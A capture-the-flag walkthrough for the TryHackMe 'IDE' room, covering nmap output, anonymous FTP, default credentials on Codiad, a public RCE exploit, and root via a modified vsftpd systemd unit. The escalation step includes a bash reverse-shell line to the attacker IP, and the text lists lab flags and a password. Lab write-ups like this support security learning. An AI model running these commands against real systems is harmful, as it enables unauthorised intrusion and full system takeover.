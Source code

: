 # [Challenge](https://tryhackme.com/room/ide)

# ENUM
## nmap (`nmap -A -p- -T4 --min-rate 5000 ide`)
```nmap
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.13.111
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


# EXPLOITATION
Firstly, I logged into the anonymous ftp:
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
Mhh, so something uses the default password... good!
On the port 80 (http) there's only the Apache default page
On port 62337 there's Codiad 2.8.4; after some manual bruteforcing the login creds are `john:password`
There are some scripts here, let's search for an exploit: `CVE-2018-14009`: Remote Code Execution (Authenticated): `python3 49705.py http://ide:62337/ john password 10.8.13.111 8888 linux`
We're in! (`python3 -c "import pty; pty.spawn('/bin/bash')"`)
# PRIVILEGE ESCALATION
`/home/drac/.bash_history`: `mysql -u drac -p 'Th3dRaCULa1sR3aL'` we're drac! Let's grab `user.txt`: `02930d21a8eb009f6d26361b2d24a466`
`sudo -l`: `(ALL : ALL) /usr/sbin/service vsftpd restart`
We can modify the `vsftpd` configuration file (`/lib/systemd/system/vsftpd.service`) to gain a root shell: `echo -e "[Unit]\nDescription=vsftpd FTP server\nAfter=network.target\n\n[Service]\nType=simple\nExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf\nExecReload=/bin/kill -HUP $MAINPID\nExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/10.8.13.111/9999 0>&1'\n\n[Install]\nWantedBy=multi-user.target" > /lib/systemd/system/vsftpd.service`
Let's reload the daemon (`systemctl daemon-reload`), set a listener and... we're ROOT!
`root.txt`: `ce258cb16f47f1c66f0b0b77f4e0fb8d`
